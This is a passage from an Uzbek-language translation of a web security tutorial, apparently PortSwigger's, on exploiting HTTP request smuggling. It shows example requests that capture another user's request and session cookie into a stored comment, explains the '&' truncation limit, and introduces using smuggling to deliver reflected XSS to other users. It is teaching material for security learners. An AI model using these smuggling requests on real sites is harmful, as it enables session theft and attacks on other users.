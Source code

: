 ```http

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net&comment=
```

Boshqa foydalanuvchining requesti back-end server tomonidan koʻrib chiqilganda, u so'rov biz yuborgan smuggled requestga qoʻshiladi va uning natijalari cookie lari va shunga o'xshash maxfiy ma'lumotlari saqlanadi:

```http
POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net&comment=GET / HTTP/1.1
Host: vulnerable-website.com
Cookie: session=jJNLJs2RKpbg9EQ7iWrcfzwaTvMw81Rj
... 
```

Keyin, saqlangan ma'lumotlarni odatdagidek olish orqali boshqa foydalanuvchi so'rovining ma'lumotlarini olishingiz mumkin.

:::info **Eslatma**

Ushbu usulda bitta cheklov bor, u odatda faqat smuggled so'roviga tegishli bo'lgan parametrlarni ajratuvchi belgigacha ma'lumotlarni ushlaydi. Encode qilingan holatda yuborilgan URLda u & belgisi hisoblanadi, ya'ni foydalanuvchining so'rovidan saqlangan ma'lumot birinchi \&da tugaydi, u hatto query stringlarida ham bo'lishi mumkin.
:::

:::caution **Lab**
 [Boshqa foydalanuvchilarning so'rovlarini yozib olishda HTTP request smugglingni exploit qilish ≫](https://portswigger.net/web-security/request-smuggling/exploiting/lab-capture-other-users-requests)
:::

## HTTP Request Smuggling dan foydalangan holda reflected XSS ni exploit qilish <a href="#http-request-smuggling-dan-foydalangan-holda-reflected-xss-ni-exploit-qilish" id="http-request-smuggling-dan-foydalangan-holda-reflected-xss-ni-exploit-qilish"></a>

Agar veb-saytda HTTP request smuggling va reflected XSS zaifligi bo'lsa, veb-saytning boshqa foydalanuvchilarga tasir ko'rsatish uchun HTTP request smuggling hujumidan foydalanishingiz mumkin. Ushbu yondashuv oddiy reflected XSS dan ikki jihati bilan ustun:

* Bu foydalanuvchilar bilan o'zaro aloqani talab qilmaydi. Siz ularga URL manzilni berishingiz va ular URLga kirishlarini kutishingiz shart emas. Siz shunchaki XSS payloadi kiritilgan requestni yashirincha olib o'tasiz va keyingi foydalanuvchining so'rovi server tomonidan qayta ishlanadi.
* HTTP so'rov headerlari kabi oddiy reflected XSS hujumida boshqarib bo'lmaydigan so'rov qismlarida XSSni exploit qilishda foydalanish mumkin.
